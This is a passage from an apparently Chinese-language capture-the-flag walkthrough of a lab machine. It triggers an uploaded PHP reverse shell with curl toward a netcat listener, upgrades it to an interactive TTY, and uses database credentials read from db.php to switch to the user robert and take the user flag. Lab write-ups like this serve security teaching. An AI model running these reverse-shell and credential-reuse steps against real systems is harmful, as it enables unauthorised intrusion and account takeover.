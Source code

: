 
```
nc nvvlp 1234

```

> 
使用curl来触发php从而反弹webshell


```
curl http://10.10.10.28/uploads/php-reverse-shell.php

```

> 
切回nc的终端，nc成功接收到webshell，反弹webshell成功


## 升级shell

> 



> 
用netcat获得的shell是非交互式的，不能传递tab来进行补全，不能使用su、nano，也不能执行ctrl+c等命令，所以我们需要升级为交互式的shell


```
SHELL=/bin/bash script -q /dev/null			//见注解1
Ctrl-Z										//见注解2
stty raw -echo								//见注解3
fg											//见注解4
reset										//见注解5
xterm										//见注解6

```

> 
- 将在环境变量下将shell设置为/bin/bash且参数为-q和/dev/null的情况下运行脚本，-q参数为静默运行，输出到/dev/null（黑洞）里，如果不加script -q /dev/null不会新启一个bash，shell=/bin/bash只是设置shell为bash，加了以后会给你挂起一个新的shell，并帮你记录所有内容（这里感谢一下Faz和众多好友的探讨）- 将netcat暂挂至后台- 将本地终端置于原始模式，以免干扰远程终端- 将netcat返回到前台，注意：这里不会显示输入的命令- 重置远程终端，经测试也可以不进行此操作- 运行xterm


> 
执行完上述操作后，我们会获得一个交互式的shell，可以执行su、ctrl+c等命令，且可以tab自动补全了


## 横向移动

> 
翻阅信息发现在`/var/www/html/cdn-cgi/login`目录中存在一个数据库的连接信息db.php，里面包含用户名为robert，密码为M3g4C0rpUs3r!的用户凭证


> 
这样，我们可以用su命令并输入密码来切换用户


> 
在这里可以找到位于robert用户根目录下的user.txt，拿到User Own的Flag
